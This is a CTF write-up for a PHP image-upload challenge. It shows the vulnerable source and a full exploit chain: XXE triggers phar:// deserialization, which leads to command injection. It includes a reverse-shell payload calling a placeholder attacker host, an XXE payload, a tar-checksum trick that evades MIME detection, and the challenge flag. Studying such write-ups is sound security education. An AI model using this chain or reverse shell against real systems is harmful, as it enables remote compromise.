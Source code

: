 ```yaml
---
tags: ["php", "web", "xxe", "phar"]
author: "bennofs"
---
```

# Challenge
> Sharing is caring. For picture wizard use only. 

The challenge provides a simple upload service, where you can upload images and they are added to your gallery.

# Solution
The robots.txt hints that the source can be downloaded from http://ruben-01.play.midnightsunctf.se:8080/source.zip.
The important file is `upload.php`:

```php
<?php
session_start();

function calcImageSize($file, $mime_type) {
    if ($mime_type == "image/png"||$mime_type == "image/jpeg") {
        $stats = getimagesize($file);  // Doesn't work for svg...
        $width = $stats[0];
        $height = $stats[1];
    } else {
        $xmlfile = file_get_contents($file);
        $dom = new DOMDocument();
        $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
        $svg = simplexml_import_dom($dom);
        $attrs = $svg->attributes();
        $width = (int) $attrs->width;
        $height = (int) $attrs->height;
    }
    return [$width, $height];
}


class Image {

    function __construct($tmp_name)
    {
        $allowed_formats = [
            "image/png" => "png",
            "image/jpeg" => "jpg",
            "image/svg+xml" => "svg"
        ];
        $this->tmp_name = $tmp_name;
        $this->mime_type = mime_content_type($tmp_name);

        if (!array_key_exists($this->mime_type, $allowed_formats)) {
            // I'd rather 500 with pride than 200 without security
            die("Invalid Image Format!");
        }

        $size = calcImageSize($tmp_name, $this->mime_type);
        if ($size[0] * $size[1] > 1337 * 1337) {
            die("Image too big!");
        }

        $this->extension = "." . $allowed_formats[$this->mime_type];
        $this->file_name = sha1(random_bytes(20));
        $this->folder = $file_path = "images/" . session_id() . "/";
    }

    function create_thumb() {
        $file_path = $this->folder . $this->file_name . $this->extension;
        $thumb_path = $this->folder . $this->file_name . "_thumb.jpg";
        system('convert ' . $file_path . " -resize 200x200! " . $thumb_path);
    }

    function __destruct()
    {
        if (!file_exists($this->folder)){
            mkdir($this->folder);
        }
        $file_dst = $this->folder . $this->file_name . $this->extension;
        move_uploaded_file($this->tmp_name, $file_dst);
        $this->create_thumb();
    }
}

new Image($_FILES['image']['tmp_name']);
header('Location: index.php');
```

We see that it supports XML upload, and is vulnerable to XXE injection because it sets the flag `LIBXML_NOENT` (which is badly named: this flag *enables* entity processing). But this alone doesn't help us much since we don't know the name of the flag file and we also cannot observe the output after entities have been processed. 

To gain arbitrary code execution, we make us of the fact that the class `Image` calls `system` during `__destruct`, where some of the parameters passed to `system` are derived from class attributes. Because the XML is parsed by PHP, we can use the `phar://` protocol handler which is known to provide php deserialization (see [1]). Thus we can build a malicious PHAR file (using the tool at [2] to make a PHAR that is also a valid JPEG) which causes an instance of the class `Image` to be created with our command injection payload. We then upload this PHAR to the server and obtain the URL (`images/...`). To trigger the RCE we afterwards upload an xml which uses XXE to load `phar://images/...` thus executing our deserialization payload.

One small difficulty here was in building the polyglot. The problem is that while the PHAR we generate is a valid jpeg, `file` (and `php_mime`) detect it as `tar` because it has higher precedence. We can solve this slightly corrupting the tar file in a way such that `file` no longer detects it but php can still load it. This is possible because PHP parses the checksum differently from file. The char checksum is an 7-digit octal number. If there is any non-octal digit in that number, file will parse the checksum as -1 while PHP returns the checksum it parsed so far. So if we just modify our checksum from "0001234" to "001234x" the file thinks the checksum is invalid while PHP parses the file just fine. A patch that implements this in PHPGGC can be found at [3].

With that patch, we can generate our polyglot PHAR as follows:

```php
<?php
include("./phpggc/lib/PHPGGC.php");

class Image {
};
$object = new Image;
$object->folder="`bash -c 'bash -i >& /dev/tcp/MYDOMAIN.COM/1337 0>&1' >images/h 2>&1`";
$object->file_name="idc";
$object->extension="idc";
$object->tmp_name="idc";

$serialized = serialize($object);
$jpeg="./empty.jpg";
$phar = new \PHPGGC\Phar\Tar($serialized, compact("jpeg"));
file_put_contents('exploit.tar', $phar->generate());
?>
```

Then upload `exploit.tar`, get the URL to it and upload the following XML file:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "phar://images/path_to_exploit_image.jpg/test.txt" >]>
<svg width="100" height="100">
    <user>&xxe;</user>
    <pass>mypass</pass>
</svg>

```

And we get a shell, which we can use to obtain the flag: `midnight{R3lying_0n_PHP_4lw45_W0rKs}`

# References
- [1] https://github.com/s-n-t/presentations/raw/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf
- [2] https://github.com/ambionics/phpggc
- [3] https://github.com/ambionics/phpggc/pull/48



